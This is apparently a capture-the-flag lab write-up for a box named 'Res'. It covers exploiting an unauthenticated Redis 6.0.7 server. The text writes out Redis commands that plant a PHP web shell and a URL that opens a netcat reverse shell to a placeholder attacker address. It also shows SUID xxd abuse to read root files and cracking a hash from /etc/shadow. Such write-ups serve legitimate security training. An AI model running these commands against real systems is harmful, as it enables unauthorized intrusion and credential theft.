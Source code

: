 # Res

### Res
Nmap scan shows ports 80 and 6379(Redis) open. 

    PORT     STATE SERVICE VERSION
    80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
    |_http-title: Apache2 Ubuntu Default Page: It works
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    6379/tcp open  redis   Redis key-value store 6.0.7
After some online search, I found that this redis version, if open to the internet, is vulnerable to RCE.<br />
Basically we need to access redis with `redis-cli -h target_IP -p target_PORT` (this instance does not have any username or password to prompt). <br />
Next, run the following commands inside the redis client: 

    config set dir /var/www/html
    config set dbfilename redis.php
    set test "<?php system($_GET['cmd']); ?>"
    save

Next, open a netcat listener and visit `http://TARGET_IP/redis.php?cmd=busybox%20nc%20YOUR_IP%20YOUR_PORT%20-e%20sh` to get a reverse shell. Now for privesc, I used linpeas to enumerate possible privilege escalation paths. I found the SUID bit set on the `xxd` binary. <br />
The exploit for this binary can be found on [gtfobins](https://gtfobins.github.io/gtfobins/xxd/#suid), just run `xxd /root/root.txt | xxd -r` to read the root flag.<br />
To get vianka's password and answer the question, just read the `/etc/shadow` file and crack vianka's hash using john.

